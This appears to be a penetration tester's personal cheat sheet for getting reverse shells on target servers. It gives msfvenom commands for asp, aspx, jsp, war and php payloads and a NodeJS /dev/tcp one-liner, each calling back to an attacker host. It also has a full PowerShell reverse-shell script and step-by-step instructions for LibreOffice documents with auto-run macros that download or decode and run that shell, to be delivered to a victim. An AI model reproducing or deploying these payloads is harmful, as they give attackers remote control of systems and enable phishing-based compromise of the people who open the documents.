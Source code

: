 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### asp
Is it IIS 5.1?

5.1
```bash - kali
cp /usr/share/webshells/asp/cmd-asp-5.1.asp .
```

![[Pasted image 20220614101904.png]]

OR

```bash - kali
cp /usr/share/webshells/asp/cmdasp.asp .
```

32 bit Stageless:
```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

#### aspx
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

#### jsp	
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```

#### jar / war
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f war > reverse.war
```

Sometimes the jar itself will not work, we need to extract and upload one of its files:

```bash - kali
jar -xvf reverse.war
```

Now find and upload the .jsp file

#### NodeJS
```
echo "require('child_process').exec('bash -c \\'bash -i >& /dev/tcp/$KALI/443 0>&1\\''" > /var/www/node/package.js
```

#### php
```bash - kali
msfvenom -p php/reverse_php LHOST=$KALI LPORT=443 -f raw > reverse.php
```


#### .odt LibreOffice

save the following as Shelly.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash - kali
sudo apt install libreoffice-writer
```

Open LibreOffice Writer application.  start a new file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.

```
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell iwr http://$KALI/Shelly.ps1 -o %TEMP%/Shelly.ps1")
	Shell("cmd /c powershell -c %TEMP%/Shelly.ps1")
End Sub

```

**Save the document** as odt format.

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

**Save file**

```bash - kali
chmod 755 Shelly.ps1
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

upload odt file.

#### .hta - .ods LibreOffice

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o evil.hta
```

Open the hta file, copy the "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

```bash - kali
mousepad transform.py
```

Paste in place for the s variable.
```python
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

```bash - kali
sudo apt install libreoffice-calc
```

start a new LibreOffice Calc file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.  Paste in your generated to look like this:

==NOTICE HOW THIS STARTS WITH "cmd.exe /C ......."==

Make sure your Dim and Str's line up!

---

Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub

---

**Save the document**

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

Now just deliver the file and wait for it to be opened.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
